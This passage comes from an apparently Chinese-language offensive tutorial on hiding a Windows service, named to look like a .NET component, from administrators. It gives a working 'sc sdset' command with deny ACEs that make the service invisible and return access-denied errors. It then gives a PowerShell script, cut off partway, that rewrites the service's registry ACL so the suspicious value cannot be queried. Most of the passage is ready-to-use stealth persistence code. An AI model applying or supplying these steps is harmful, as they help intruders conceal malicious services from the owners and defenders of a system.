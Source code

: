 windows中的安全对象都使用SDDL字符串来表示访问对象对于安全对象的权限，服务自然也存在其SDDL，并且sc命令中可以设置SDDL。那么通过更改SDDL可以修改服务的各种权限来隐藏服务：

    
    
    sc sdset ".NET CLR Networking 3.5.0.0" "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210913135657.png)

然后通过sc与get-server查找服务均无结果：

![](https://gitee.com/fuli009/images/raw/master/public/20210913135659.png)

并且服务也不再显示：

![](https://gitee.com/fuli009/images/raw/master/public/20210913135700.png)

在知道服务名的前提下查询会显示拒绝访问：

![](https://gitee.com/fuli009/images/raw/master/public/20210913135703.png)

但这样做有一个问题：在注册表中很容易看到异常value。

![](https://gitee.com/fuli009/images/raw/master/public/20210913135705.png)

# 修改注册表ACL

我们可以通过修改注册表的DACL来拒绝对值的查询，达到隐藏异常值的效果。

这里给出一个通过powershell修改注册表项的访问权限的简单脚本：

    
    
    function Server-Sddl-Change{  
    [CmdletBinding()]  
        param  
        (  
            [parameter(Mandatory=$false)][String]$Name  
        )  
    $ROOT = "HKLM:\SYSTEM\CurrentControlSet\Services\"  
    $S = $ROOT+$NAME  
    $acl = Get-Acl $S  
    $acl.SetAccessRuleProtection($true, $false)  
      
    $person = [System.Security.Principal.NTAccount]"Everyone"  
    $access = [System.Security.AccessControl.RegistryRights]"QueryValues"  
    $inheritance = [System.Security.AccessControl.InheritanceFlags]"None"  
    $propagation = [System.Security.AccessControl.PropagationFlags]"None"  
    $type = [System.Security.AccessControl.AccessControlType]"Deny"  
    $rule = New-Object System.Security.AccessControl.RegistryAccessRule( `  
    $person,$access,$inheritance,$propagation,$type)  
    $acl.AddAccessRule($rule)  
      
    $person = [System.Security.Principal.NTAccount]"Everyone"  
    $access = [System.Security.AccessControl.RegistryRights]"SetValue,CreateSubKey,EnumerateSubKeys,Notify,CreateLink,Delete,ReadPermissions,WriteKey,ExecuteKey,ReadKey,ChangePermissions,TakeOwnership"  
    $inheritance = [System.Security.AccessControl.InheritanceFlags]"None"  
    $propagation = [System.Security.AccessControl.PropagationFlags]"None"  
    $type = [System.Security.AccessControl.AccessControlType]"Allow"  
    $rule = New-Object System.Security.AccessControl.RegistryAccessRule( `  
    $person,$access,$inheritance,$propagation,$type)  
    $acl.AddAccessRule($rule)  
      